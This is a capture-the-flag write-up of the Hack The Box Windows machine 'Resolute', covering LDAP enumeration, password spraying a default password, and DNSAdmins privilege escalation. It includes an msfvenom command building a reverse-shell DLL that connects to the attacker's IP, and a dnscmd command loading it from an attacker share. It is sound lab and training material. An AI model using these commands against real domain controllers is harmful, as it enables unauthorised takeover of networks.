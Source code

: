# Resolute
Details:
- Resolute IP: 10.10.10.169
- Kali IP: 10.10.14.145
- Difficulty: medium
- Date of writeup: 30 May 2020

Resolute, my first Windows box. It was much harder for me than the average medium difficulty Linux box. Even though I had some knowledge on ldap, smb and active directory, which turned out to be handy, I couldn't finish it without a brief hunt for tips.

Sections:
- [Recon](#recon)
- [Obtaining a Foothold](#obtaining-a-foothold)
- [Lateral Movement](#lateral-movement)
- [Getting to Root](#getting-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

Tools/commands Used
- nmap
- evil-winrm
- crackmapexec
- ldapsearch
- Bloodhound
- msfconsole
- msfvenom

## Recon
So, first things first: recon (```-v``` option shows ports as it founds them, so we can start working on them right away)
```shell
kali$  nmap -v -sC -sV 10.10.10.169
```

![](images/Resolute_2.png?raw=true)

There are many things to try out, given the ports that are open: DNS (53), Kerberos (88), LDAP (289), SMB (445) and so on. I started with LDAP.

## Obtaining a Foothold

```shell
kali$  ldapsearch -h 10.10.10.169 -x -s base namingcontexts
```

With the command above we can extract part of the FQDN (Fully Qualified Domain Name). We want to know the Domain Controller's name, to use it with the ```ldapsearch``` command (we actually also get the Domain name in the nmap run).

```shell
kali$  ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

This command spits out a bunch of information. I saved it in a file and started going through it. What we would really like to know is if there is any information regarding the users. We know, from an extended nmap scan (```nmap -p- 10.10.10.169```), that port 5985 is open, so we can use ```evil-winrm``` to log in.

Sure enough, after a bit of search, we found out that upon creation, users are given a default password.

![](images/Resolute_3.png?raw=true)

We now need to know whether some of the users forgot to change that password or not. We can do this in two ways:
- Extract the users from the LDAP dump by searching for the field ```sAMAccountName``` and attempt the password for all of them, or
- Look at information in the LDAP dump, fields like ```badPasswordTime```, ```lastLogonTimestamp```, ```pwdLastSet```, etc., and try to make inferences as to which user might have not changed their default password

Since there are only 60-something users in the system and there is no password lockout (see image below), then we can proceed to use ```crackmapexec```

![](images/Resolute_1.png?raw=true)

```shell
kali$  crackmapexec smb 10.10.10.169 -u users.txt -p passwords.txt
```

Sure enough, we get that user ```melanie``` didn't change her default password. We can now establish a connection:

![](images/Resolute_4.png?raw=true)


## Lateral movement

Achieving root was quite difficult in this box. It was quite a challenge and also I feel it was quite a "real-life"-like scenario. I attempted a bunch of things that didn't work out because of several reasons, and I ended up looking for tips in Reddit. The reason why many of the things I tried didn't work was because there seemed to be some security software running, as can be observed in the image below, where I tried to run PowerView.

![](images/Resolute_5.png?raw=true)

I also ran many enumeration scripts and Bloodhound, which turned out to be useful later on. To use it:
- Install [neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/#debian-install)
- Pull [Sharphound ingestors](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) from github
- Copy ingestor to the target, run it and obtain the Zip file back in your Kali VM
- Startup neo4j
- Get a [Bloodhound release](https://github.com/BloodHoundAD/BloodHound/releases) to start up the server
- Change chrome-sandbox permissions/owner as needed
- Import the zip file in Bloodhound

![](images/Resolute_10.png?raw=true)

I have to admit that not being very profficient in the use of Bloodhound, at first I was overwhelmed with the amount of information and followed a bunch of rabbit holes. My attempt to run PowerView above was one of those. I'm not going into details here on how to use Bloodhound, as I'm sure there are many good resources out there to look at.

What I should have seen, however, was that there was another user that could remote into the Domain Controller. This should have been an interesting clue for me.

Anyhow, what I ended up doing was going through the filesystem searching for clues. There was an interesting folder in the C:\ folder:

![](images/Resolute_6.png?raw=true)

Getting the content of that file:

![](images/Resolute_7.png?raw=true)

We have the credentials to user ```ryan```, which is the user that I missed in the Bloodhound analysis.

![](images/Resolute_8.png?raw=true)


## Getting to root

We're still not there yet. This box seems to never end!

User ```ryan``` has a singularity, and it is that it belongs to the group DNSADMINS. I realized that while looking at the Bloodhound analysis, but since then I have not been able to reproduce the same query that I did to find it out. Anyways, any good enumeration script would have told me the same. 

After a bit of browsing around (just look for "DNSAdmin privilege escalation" and there'll be a bunch of [results](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)) I knew what to do. It seems that you can tell the DNS server to load an arbitrary DLL and run it. You can even use an UNC path, which is what I use in the following image

![](images/Resolute_9.png?raw=true)

Explanation:
- First, build a dll which will open a reverse shell to your kali VM:
```shell
kali$  msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.145 LPORT=4444 -f dll > smb_srv/privesc.dll
```
- Open msfconsole and start the handler for the reverse shell
- In the target machine, run the command that will load the dll
```shell
resolute$  dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.145\smb_srv\privesc.dll
```
- In the target machine, use ```sc.exe``` to stop/start the DNS server, making it load the DLL

**We have root!**


## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=8KJebvmd1Fk)

- He does pretty much the same that I did. There is one key takeaway though. When leveraging the user ```ryan``` to achieve privesc, we risk hanging the DNS server. That's something we cannot risk in a real-life scenario. It would be a red flag for any system administrator. This is because msfvenom, when creating the DLL, doesn't use a fork or thread to execute the reverse shell command. It's a blocking call until the reverse shell dies or returns the return code. The solution is generating the DLL ourselves. He explains that very nicely.

